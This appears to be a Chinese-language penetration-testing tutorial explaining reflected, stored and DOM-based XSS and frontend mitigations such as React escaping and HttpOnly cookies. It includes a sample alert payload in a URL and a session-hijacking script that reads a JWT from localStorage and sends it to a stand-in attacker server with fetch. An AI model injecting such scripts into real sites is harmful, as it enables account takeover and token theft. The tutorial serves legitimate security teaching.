

# 渗透测试中级：XSS 与客户端攻击 (Frontend)

SQL 注入攻击的是数据库 (Backend)，而 **XSS (跨站脚本攻击 Cross-Site Scripting)** 攻击的是应用程序的用户 (Frontend)。XSS 的目的不是窃取服务器数据，而是窃取用户浏览器的数据（如他们的会话 Cookies 或 JWT Token）。

## 1. 理解 XSS

当 Web 应用程序允许用户输入信息（例如，在论坛评论中），然后系统将该信息显示在其他用户的屏幕上而没有进行“净化 (sanitizarla)”或清理时，就会发生 XSS。



## 2. XSS 的类型

每个渗透测试人员都会寻找三种主要变体：

### 反射型 XSS (Reflected XSS)
攻击发生在 URL 中。攻击者通过电子邮件向你发送一个链接：
`https://banco.com/buscar?q=<script>alert('Hack')</script>`
如果页面从 URL 中获取参数 `q` 并将其直接绘制在 HTML 中（"搜索结果：`<script>...`"），你的浏览器将立即执行它。

### 存储型 XSS (Stored XSS - 最危险)
恶意脚本被保存在数据库中（例如：在用户的个人资料描述或推文中）。任何访问该个人资料的人都会被自动黑客攻击，而无需点击奇怪的链接。

### 基于 DOM 的 XSS (DOM-Based XSS)
漏洞完全发生在 Frontend 的 JavaScript 代码中（例如 React 或 Vue）。这通常发生在用用户控制的数据使用危险函数时，如原生 JS 中的 `innerHTML` 或 React 中的 `dangerouslySetInnerHTML`。

## 3. 实际演示 (会话劫持)

与其弹出一个无害的 `alert('Hack')`，真正的攻击者会在评论中注入这样的内容：

```html
<script>
  // 从 LocalStorage 窃取 JWT Token
  const token = localStorage.getItem('access_token');
  // 在后台静默将其发送给攻击者的服务器
  fetch('https://servidor-del-hacker.com/robar?jwt=' + token);
</script>
```
当站点管理员进入查看评论时，他的浏览器将执行此脚本，攻击者将获得管理员的完全访问权限。

## 4. Frontend 的缓解措施
* **React 默认是安全的：** 如果你在 React 中使用 `{variable}`，该框架会自动转义危险字符（`<` 会变成 `&lt;`）。
* **HttpOnly Cookies：** 永远不要将关键的访问令牌保存在 `LocalStorage` 或普通的 cookie 中。将其保存在带有 `HttpOnly` 和 `Secure` 标志的 Cookie 中。这使得 JavaScript（以及因此的 XSS）在物理上无法读取该 cookie。

在**高级阶段**，我们将更进一步，分析跨站请求伪造 (CSRF/SSRF) 攻击以及如何欺骗服务器。
